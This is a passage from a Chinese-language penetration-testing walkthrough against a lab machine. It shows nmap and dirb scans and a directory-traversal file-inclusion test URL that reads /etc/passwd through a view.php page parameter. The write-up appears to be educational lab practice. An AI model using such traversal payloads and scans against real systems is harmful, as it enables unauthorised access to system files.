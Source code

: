 ```
nmap -sV -T4 -O 192.168.81.142 -p 22,80,111,53311
```

![image-20220315150825598](https://gitee.com/xxb667/img/raw/master/img/image-20220315150825598.png)

## 1.4 御剑扫描

```
192.168.81.142
```

得到一个网址

```
http://192.168.81.142/index.html
```

![image-20220315151255042](https://gitee.com/xxb667/img/raw/master/img/image-20220315151255042.png)



# 2.漏洞探测

## 2.1 网页探测

```
http://192.168.81.142/#portfolio
```

![image-20220315152726382](https://gitee.com/xxb667/img/raw/master/img/image-20220315152726382.png)

下面这个网址可能存在文件包含漏洞

```
http://192.168.81.142/view.php?page=tools.html
```

![image-20220315152825819](https://gitee.com/xxb667/img/raw/master/img/image-20220315152825819.png)

测试文件是否存在文件包含漏洞

```
http://192.168.81.142/view.php?page=../../../../../../../../../../../../etc/passwd
```

![image-20220315153009295](https://gitee.com/xxb667/img/raw/master/img/image-20220315153009295.png)

## 2.2 目录扫描 

```
dirb http://192.168.81.142
```

![image-20220315153349298](https://gitee.com/xxb667/img/raw/master/img/image-20220315153349298.png)

